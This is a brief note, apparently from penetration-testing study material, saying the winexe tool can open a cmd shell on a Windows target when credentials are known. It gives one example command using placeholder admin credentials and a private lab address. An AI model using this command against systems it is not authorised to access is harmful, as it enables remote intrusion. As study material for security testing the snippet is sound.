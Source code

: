 We can use this tool to get a cmd shell in target windows machine with crdentials

Example below:

```
winexe -U 'admin%password' //10.10.109.45 cmd.exe
```


